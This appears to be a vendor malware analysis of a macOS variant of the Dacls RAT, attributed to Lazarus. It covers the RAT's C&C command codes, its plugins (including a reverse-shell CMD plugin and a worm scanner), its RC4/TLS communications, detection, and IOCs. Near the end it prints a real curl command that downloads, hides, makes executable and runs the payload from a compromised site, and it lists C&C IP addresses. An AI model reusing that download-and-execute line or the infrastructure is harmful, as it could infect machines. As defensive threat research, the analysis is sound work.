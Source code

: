  The “IntializeConfiguration” function initializes the config file with the following hardcoded C&C servers.     The config file is constantly updated by receiving commands from the C&C server. The application name after installation is “mina”. Mina comes from the MinaOTP application which is a two-factor authentication app for macOS.    Main Loop After initializing the config file, the main loop is executed to perform the following four main commands:  Upload C&C server information from the config file to the server (0x601)Download the config file contents from the server and update the config file (0x602)Upload collected information from the victim’s machine by calling “getbasicinfo” function (0x700)Send heartbeat information (0x900) The command codes are exactly the same as Linux.dacls.     Plugins This Mac RAT has all the six plugins seen in the Linux variant with an additional plugin named “SOCKS”.  This new plugin is used to proxy network traffic from the victim to the C&C server. The app loads all the seven plugins at the start of the main loop. Each plugin has its own configuration section in the config file which will be loaded at the initialization of the plugin.     CMD plugin The cmd plugin is similar to the “bash” plugin in the Linux rat which  receives and executes commands by providing a reverse shell to the C&C server.     File Plugin The file plugin has the capability to read, delete, download, and search files within a directory. The only difference between the Mac and Linux version is that the Mac version does not have the capability to write files (Case 0).     Process plugin The process plugin has the capability of killing, running, getting process ID and collecting process information.     If the “/proc/%d/task” directory of a process is accessible, the plugin obtains the following information from the process where %d is the process ID: Command line arguments of the process by executing “/proc/ %/cmdline” Name, Uid, Gid, PPid of the process from the “/proc/%d/status” file.  Test plugin The code for the Test plugin between Mac and Linux variant is the same. It checks the connection to an IP and Port specified by the C&C servers. RP2P plugin The RP2P plugin is a proxy server used to avoid direct communications from the victim to the actor’s infrastructure.     LogSend plugin The Logsend plugin contains three modules that:  Check connection to the Log serverScan network (worm scanner module)Execute long run system commands    This plugin sends the collected logs using HTTP post requests.     An interesting function in this plugin is the worm scanner. The “start_worm_scan” can scan a network subnet on ports 8291 or 8292. The subnet that gets scanned is determined based on a set of predefined rules. The following diagram shows the process of selecting the subnet to scan.     Socks plugin The Socks plugin is the new, seventh plugin added to this Mac Rat. It is similar to the RP2P plugin and acts as an intermediary to direct the traffic between bot and C&C infrastructure. It uses Socks4 for its proxy communications.     Network Communications C&C communication used by This Mac RAT is similar to the Linux variant. To connect to the server, the application first establishes a TLS connection and then performs beaconing and finally encrypts the data sent over SSL using the RC4 algorithm.       Both Mac and Linux variants use the WolfSSL library for SSL communications. WolfSSL is an open-source implementation of TLS in C that supports multiple platforms. This library has been used by several threat actors. For example, Tropic Trooper used this library in its Keyboys malware.    The command codes used for beaconing are the same as the codes used in Linux.dacls.  This is to confirm the identity of the bot and the server.    The RC4 key is generated by using a hard-coded key.     Variants and detection We also identified another variant of this RAT which downloads the malicious payload using the following curl command:  curl -k -o ~/Library/.mina https://loneeaglerecords.com/wp-content/uploads/2020/01/images.tgz.001 > /dev/null 2>&1 && chmod +x ~/Library/.mina > /dev/null 2>&1 && ~/Library/.mina > /dev We believe this Mac variant of the Dcals RAT is associated with the Lazarus group, also known as Hidden Cobra and APT 38, an infamous North Korean threat actor performing cyber espionage and cyber-crime operations since 2009.  The group is known to be one of the most sophisticated actors, capable of making custom malware to target different platforms. The discovery of this Mac RAT shows that this APT group is constantly developing its malware toolset. Malwarebytes for Mac detects this remote administration Trojan as OSX-DaclsRAT.       IOCs 899e66ede95686a06394f707dd09b7c29af68f95d22136f0a023bfd01390ad53 846d8647d27a0d729df40b13a644f3bffdc95f6d0e600f2195c85628d59f1dc6 216a83e54cac48a75b7e071d0262d98739c840fd8cd6d0b48a9c166b69acd57d d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd loneeaglerecords[.]com/wp-content/uploads/2020/01/images.tgz.001  67.43.239.146 185.62.58.207 50.87.144.227